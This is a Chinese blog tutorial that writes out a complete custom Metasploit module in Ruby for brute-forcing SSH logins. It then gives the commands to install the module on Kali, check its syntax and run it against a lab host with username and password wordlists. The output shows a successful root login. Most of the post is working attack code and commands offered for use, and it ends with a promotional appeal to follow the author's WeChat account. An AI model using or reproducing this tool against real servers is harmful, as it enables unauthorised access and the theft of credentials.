 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit自定义SSH认证暴力破解器
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: Metasploit自定义SSH认证暴力破解器
lock: need
---
```


# Metasploit自定义SSH认证暴力破解器

这里，我们首先编写一个脚本ssh_brute_by_binghe.rb，具体如下：

```
##
# Author 冰河
# Date 2019-01-12
# Description 自定义SSH暴力破解模块，用于暴力破解SSH
##

require 'msf/core'
require 'metasploit/framework/credential_collection'
require 'metasploit/framework/login_scanner/ssh'

class Metasploit3 < Msf::Auxiliary
  include Msf::Auxiliary::Scanner
  include Msf::Auxiliary::Report
  #提供必要的暴力破解机制和功能，例如提供了单独的登录用户名和密码表，生词表、空密码等选项
  include Msf::Auxiliary::AuthBrute
  
  #初始化基础信息
  def initialize
    super(
      'Name'        => 'SSH Scanner',
      'Description' => %q{
        SSH Brute Tool
      },
      'Author'      => 'binghe',
      'License'     => MSF_LICENSE
    )
   register_options(
   [
      Opt::RPORT(22)
   ],self.class)
   end
   
   def run_host(ip)
     #cred_collection实现了按照数据存储选项来设置登录凭证
     cred_collection = Metasploit::Framework::CredentialCollection.new(
        blank_passwords: datastore['BLANK_PASSWORDS'],
        pass_file: datastore['PASS_FILE'],
        password: datastore['PASSWORD'],
        user_file: datastore['USER_FILE'],
        userpass_file: datastore['USERPASS_FILE'],
        username: datastore['USERNAME'],
        user_as_pass: datastore['USER_AS_PASS'],
     )
     
     scanner = Metasploit::Framework::LoginScanner::SSH.new(
        host: ip,
        port: datastore['PORT'],
        cred_details: cred_collection,
        proxies: datastore['Proxies'],
        stop_on_success: datastore['STOP_ON_SUCCESS'],
        bruteforce_speed: datastore['BRUTEFORCE_SPEED'],
        connection_timeout: datastore['SSH_TIMEOUT'],
        framework: framework,
        framework_module: self,
     )
     
     #使用.scan实现扫描的初始化，它将完成所有的登录尝试
     scanner.scan! do |result|
        #to_h 将数据转换成哈希格式
        credential_data = result.to_h
        #将名字和工作区id合并到credential_data变量中
        credential_data.merge!(
            module_fullname: self.fullname,
            workspace_id: myworkspace_id
        )
        
        #登录凭证正确，保存到数据库，并打印信息
        if result.success?
          credential_core = create_credential(credential_data)
          credential_data[:core] = credential_core
          create_credential_login(credential_data)
          
          print_good "#{ip} - LOGIN SUCCESSFUL: #{result.credential}"
          
        #登录凭证不正确，将credential_data传入到invalidate_login方法，并打印信息
        else
          invalidate_login(credential_data)
          print_status "#{ip} - LOGIN FAILED: #{result.credential} (#{result.status}: #{result.proof})"
        end
      end     
   end
end
```

接下来我们将ssh_brute_by_binghe.rb上传到Kali的/usr/share/metasploit-framework/modules/auxiliary/scanner/ssh目录下。

在运行这个脚本之前，我们先使用Metasploit中的msftidy工具检查一下此脚本的语法是否正确。

在Kali的命令行执行如下命令：

```
/usr/share/metasploit-framework/tools/dev/msftidy.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/ssh/ssh_brute_by_binghe.rb 
```

未输出任何信息，证明脚本正确。

接下来，我们在msf终端运行ssh_brute_by_binghe.rb脚本

```
msfconsole
set RHOSTS 192.168.109.159
set USER_FILE /root/user
set PASS_FILE /root/pass
run
```

最终输出结果为：

```
[*] 192.168.109.159 - LOGIN FAILED: root:admin (Incorrect: )
[+] 192.168.109.159 - LOGIN SUCCESSFUL: root:admin123
[*] 192.168.109.159 - LOGIN FAILED: admin:123456 (Incorrect: )
[*] 192.168.109.159 - LOGIN FAILED: admin:admin (Incorrect: )
[*] 192.168.109.159 - LOGIN FAILED: admin:binghe (Incorrect: )
[*] 192.168.109.159 - LOGIN FAILED: binghe:123456 (Incorrect: )
[*] 192.168.109.159 - LOGIN FAILED: binghe:admin (Incorrect: )
[*] 192.168.109.159 - LOGIN FAILED: binghe:binghe (Incorrect: )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)